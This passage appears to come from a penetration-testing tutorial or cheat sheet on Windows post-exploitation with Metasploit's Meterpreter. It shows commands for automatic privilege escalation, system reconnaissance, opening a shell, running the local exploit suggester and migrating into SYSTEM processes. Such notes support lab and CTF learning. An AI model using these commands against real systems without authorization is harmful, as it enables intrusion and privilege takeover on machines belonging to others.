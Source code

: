 * Try automatic privilege escalation 😎. Look [at this article](https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/) if it fails, and you want to give another try.

```bash
meterpreter > getsystem
```

Learn more about the system. It could be useful to find exploit, for instance by looking for CVE given the Windows build. The architecture can help too, because some scripts work better on some architectures.

```bash
meterpreter > sysinfo
# Computer        : XXX-PC
# OS              : Windows X (... Build xxx...).
# Architecture    : x64
```
</div><div>

You can also start a shell, and directly asks Windows

```bash
meterpreter > shell # start a shell
# you can run commands
# C:\WINDOWS\system32> whoami
# C:\WINDOWS\system32> systeminfo
```

You can ask for suggested exploits <small>(this doesn't work well on x64)</small>

```bash
meterpreter > run post/multi/recon/local_exploit_suggester
```

If you found once, use `background` to go back to the console, and try an additional exploit.

<details class="details-e"><summary>Note: Windows defender</summary></details>

<details class="details-e"><summary>Note: "Command shell session 1 opened" and nothing</summary></details>

<details class="details-e"><summary>Note: SSL</summary></details>

</div></div>

<hr class="sep-both">

## Not-admin yet

<div class="row row-cols-md-2"><div>

To access a service, we need to be "in" a process that has the same architecture, and the same permissions, that our target. **Usually**, any process run by "NT AUTHORITY\SYSTEM" (root) should be okay, although you may have to try a few times.

```bash
meterpreter > ps # list process
meterpreter > migrate process_pid # move to another process
meterpreter > migrate -N process_name # same
```
